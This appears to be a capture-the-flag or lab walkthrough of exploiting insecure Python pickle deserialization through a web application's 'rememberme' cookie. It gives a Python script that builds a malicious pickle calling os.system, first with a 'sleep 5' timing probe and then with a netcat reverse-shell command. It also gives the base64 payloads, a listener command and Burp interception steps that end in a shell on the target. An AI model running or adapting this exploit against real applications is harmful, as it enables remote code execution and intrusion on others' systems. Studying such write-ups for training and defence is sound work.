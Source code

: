 ```python
import pickle
import base64
import os

class payloads(object):
def __reduce__(self):
    return (os.system,("sleep 5",))

print(base64.b64encode(pickle.dumps(payloads())))
```
- Here we defined a class and created a **__reduce__** method which returns the tuple value. The object is dumped using pickle.dumps, encoded with base64 encoder and printed.

```bash
python3 exploit.py
b'ASVIgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAdzbGVlcCA1lIWUUpQu'
```
- Open the application and register a new user.
- Enter username and password and login.
- Intercept the request in burp as well.
- After login, refresh the page and intercept it with burp.
- Replace the **rememberme** parameter value with **ASVIgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAdzbGVlcCA1lIWUUpQu**<br>
- Check if the application responds after 5 seconds. If yes, the exploit is possible.
- Listen to traffic using netcat

```bash
nc -lvnp 1337
```
- Create a script **exploit.py** again and insert the reverse shell payload as below.

```python
import pickle
import base64
import os

class payloads(object):
def __reduce__(self):
    return (os.system,("nc <IP> 1337 -e /bin/sh",)) # replace <IP> 

print(base64.b64encode(pickle.dumps(payloads())))
```
- Run the script
```bash
python3 exploit.py
b'gASVOgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjB9uYyAxOTIuMTY4LjEuNjQgMTMzNyAtZSAvYmluL3NolIWUUpQu'
```
- Replace the **rememberme** parameter value with **gASVOgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjB9uYyAxOTIuMTY4LjEuNjQgMTMzNyAtZSAvYmluL3NolIWUUpQu**<br>
![image](https://user-images.githubusercontent.com/47778874/226403615-1d7cc995-3faa-44e1-830e-f9185b4c0882.png)
- A reverse shell can be received.
![image](https://user-images.githubusercontent.com/47778874/226403735-afca20b3-1e38-4562-b5f7-af66b2aefdf9.png)
